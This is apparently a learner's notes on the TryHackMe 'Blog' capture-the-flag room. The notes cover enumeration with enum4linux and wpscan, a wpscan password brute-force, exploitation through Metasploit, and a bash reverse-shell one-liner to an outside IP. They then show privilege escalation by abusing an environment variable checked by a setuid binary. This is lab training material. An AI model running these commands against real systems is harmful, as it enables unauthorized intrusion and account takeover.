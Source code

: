 # 28. Blog 🧭
Names | Details
--------|-----
Source | tryhackme
Level | medium
Os | linux

**Notes :**
#other/rabbithole
#other/wpscan
#privilegeEscalation/hard
#other/richInfo 


## Gaining Access 😉
- enum4linux gave smb username [[#Important commands 🔥]] 1
- got a username bjoel from `enum4linux`
- wpscan [[#Important commands 🔥]] 2
	- got two usernames ben joel and k wheel
	- bjoel and kwheel are their usernames
- bruteforced kweels password using wpscan :[[#Important commands 🔥]] 3
- metasploit module found to exploit wordpress version
- exploited using metasploit
- sent bash revshell and listened with nc [[#Important commands 🔥]] 4
## Maintaining Access 🥷
- find command run, because we've not yet know user password [[#Important commands 🔥]] 5
- got `/usr/sbin/checker`
- error not an admin while running this command
- strings `/usr/sbin/checker`
- for reverse engineer this binary executable file, used `ltrace` [[#Important commands 🔥]] 6
- run command for for export and executed checker, privilaged [[#Important commands 🔥]] 7

## Important commands 🔥
1. smbclient connection
	```
	smbclient ////ip//username
	```
2. wpscan for getting username
	```
	wpscan --url 10.10.55.115 --enumerate u
	```
3. wpscan bruteforce
	```
	wpscan --url http://blog.thm -U user.txt -P /usr/share/wordlists/seclists/Passwords/darkweb2017-top100.txt
	```
4. tty shell on metasploit
	```
	bash -c 'exec bash -i &>/dev/tcp/10.9.229.254/2222 <&1'
	export TERM=xterm
	```
5. find
	```
	find / -perm -4000 2>/dev/null
	```
6. ltrace - reverse engineering
	```
	ltrace /usr/sbin/checker
	```
7. export
	```
	export admin=admin
	chekcer
	```
## Post Exploitation ✴️
- User flag : /media/usb #hiddenuserflag
- Root flag : /root/root
## Tips 💡
- if you are stuck, use everything, enumerate every port and every service version
- read everything o from any tool like enum4linux
- when you're bruteforcing with hydra make sure that parameeter passed are valid
- bruteforce using wpscan 
- if I want `/usr/sbin/checker` to reverse engineer, just copy to wordpress directory and simply download using browser: search on url bar
- or download on meterpreter

--------------------------------
**By Nibras Muhammed** 🤓🖥️






